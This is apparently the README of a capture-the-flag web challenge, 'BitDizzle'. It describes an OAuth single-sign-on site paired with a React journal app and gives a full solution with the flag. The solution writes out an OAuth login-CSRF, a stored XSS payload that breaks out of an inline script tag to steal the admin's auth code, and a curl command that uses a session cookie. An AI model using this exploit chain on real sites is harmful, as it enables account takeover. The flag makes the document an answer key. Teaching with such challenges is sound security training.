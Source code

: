 # BitDizzle

## Public Description

Flag: `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`

A popular journal writing app just came out. Can you read `admin`'s journal?

https://bitdizzle.xyz/

(upload accounts/accounts.py and journal/journal.py to CTFd, but no other files)

## Design

This challenge is two websites: a single sign-on site (accounts.bitdizzle.xyz)
and a journal writing app (journal.bitdizzle.xyz). `accounts` acts as an OAuth
provider for `journal`.

These are both Flask apps, each with a sqlite database to store state.

### OAuth flow

When a user clicks "Login with OAuth" to log into the journal:

1. User requests `accounts/oauth_authorize?client_id=...&redirect_uri=https://journal/oauth_callback`
2. `accounts` generates an "auth code", and redirects the user to `journal/oauth_callback?code=<code>`
3. User requests `journal/oauth_callback?code=<code>`
4. `journal` requests `accounts/token` and passes its client secret and the user's code
  * The `client_secret` is intended to remain secret. Players aren't supposed
    to figure out how to send requests to this endpoint.
5. `accounts` responds to `journal` with the username for that code
6. `journal` responds to the user and sets a login cookie

```
| user |                | accounts |             | journal |
   |   /oauth_authorize      |                        |
   |  -------------------->  |                        |
   |   redirect to journal   |                        |
   |  <--------------------  |                        |
   |   /oauth_callback?code=<code>                    |
   |  --------------------------------------------->  |
   |                         |   /token (code=code)   |
   |                         |  <-------------------  |
   |                         |   username=<foo>       |
   |                         |  ------------------->  |
   |     success             |                        |
   |  <---------------------------------------------  |
   |                         |                        |
```

### Journal

The journal is a React app. The app's initial props are passed to the client
with an inline `<script>` tag in the initial HTML. The script stores a big
JSON object with all the initial props in a global variable.

In case players make their own journals hard to use (eg. by creating `alert(1)`
XSS PoCs), there's a "Delete all journal entries" button.

### CSRF/XSS "victim" bot

The accounts page lets you submit links to a headless Chrome bot. The bot is
logged into both `accounts` and `journal` as `admin`.

The bot maintains a separate queue of URLs to visit per IP address of the
submitter. So if one CTF player submits lots of URLs to the bot, it will still
be able to visit other players' URLs.

### Deployment instructions

See deployment.md for the steps I took to deploy this to a Digital Ocean box.

## Solution

### Vulnerabilities we're going to exploit

There are 3 main problems with this site:

**An attacker can force a victim to log into the attacker's journal**

An attacker can make the first request in the OAuth flow, write down their code,
and trick a victim into making the second request with the attacker's code. The
victim will end up logged into the attacker's journal.

**XSS in the journal site, in the `initialProps` script tag**

If you create a journal entry with the title `</script><script>alert(1)//` and
reload, you'll get this HTML:

```
<script>window.initialProps = {"entries": [{"title": "</script><script>alert(1)//", "body": "...</script>`
```

Browsers parse HTML before they try to evaluate the JS in script tags. So to a
browser, the page looks something like this, and an alert box pops up:

```
<script>window.initialProps = {"entries": [{"title": "</script>
<script>alert(1)//", "body": "...</script>
```

**`accounts` allows redirects to any URI on `journals`**

Our goal is to intercept `admin`'s OAuth code, and log into their journal. Here
are the steps from an attacke's perspective:

### Exploit

The steps to log into `admin`'s journal are:

**1. Create a journal entry with XSS**

Create a journal entry with any title, and this text in the body. Avoid
refreshing the page, or you might "steal" one of your own auth codes instead of
admin's.

```
</script><script>if (window.location.search.indexOf('code') === -1) { window.location = 'https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https://journal.bitdizzle.xyz/'; } else { fetch('/entries/', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({title: 'stolen code', body: window.location.search})}); } //
```

You can't add any newlines, or the JSON serializer will replace them with `\n`.
Here's what that JS looks like with some more whitespace:

```
if (window.location.search.indexOf("code") === -1) {
  // Step 1: Send admin through the OAuth flow again, but with redirect_uri=/
  // instead of /oauth_callback
  window.location =
    "https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https://journal.bitdizzle.xyz/";
} else {
  // Step 2: When admin finishes that OAuth flow, they'll run your XSS payload
  // again with their auth code in their query params. Steal it by creating a
  // journal entry
  fetch("/entries/", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      title: "stolen code",
      body: window.location.search,
    }),
  });
}
```

**2. Force admin to log into your journal**

Get an auth code for your account by making a request to `/oauth_authorize`
without following the redirect.

2.1. Go to the `accounts` site, open your browser console, and copy the value of
     your `__Host-session` cookie.
2.2. Run this command in your termal, but replace `YOUR_SESSION` with your actual
     sesion cookie:

```
$ curl -I "https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&amp;"\
"redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback" \
-H "Cookie: __Host-session=YOUR_SESSION"
```

2.3. Copy the `Location` header (which should be a URL that contains
     `/oauth_callback`), and paste it into the "Submit a Link" form on the
     `accounts` site

**3. Retrieve admin's auth code**

Once admin visits your journal, your XSS should create a journal entry in your
journal containing their auth code.

In Chrome, you can visit `view-source:https://journal.bitdizzle.xyz/` to avoid
running your XSS payload against yourself.

You should see an entry that looks like:

```
{"title": "stolen code", "body": "?code=<admin code>"}
```

Copy the stolen code.

**4. Log into admin's journal**

Visit `https://journal.bitdizzle.xyz/oauth_callback?code=<admin code>`

> ### Flag
> `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`

